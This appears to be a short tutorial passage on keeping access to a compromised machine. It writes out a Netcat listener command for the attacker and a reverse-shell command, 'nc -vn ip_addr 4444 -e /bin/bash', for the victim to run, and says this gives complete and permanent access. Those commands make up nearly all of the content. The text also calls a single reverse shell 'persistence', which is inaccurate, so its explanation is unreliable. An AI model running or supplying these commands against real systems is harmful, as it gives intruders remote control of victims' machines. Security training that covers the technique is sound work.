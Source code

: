 The attacker relies on a persistent connection.

The attacker must have a two-way communication channel that remains him the most time possible on the compromised system without being discovered.

For persistence, we will use the **Netcat** tool

- The attacker will start the listener
````
nc -lvp 4444 #listen on the port 4444
````

- The victim machine connects to the listener:
````
nc -vn ip_addr 4444 -e /bin/bash
````

- Now the attacker has complete and permanent access to the victim's machine
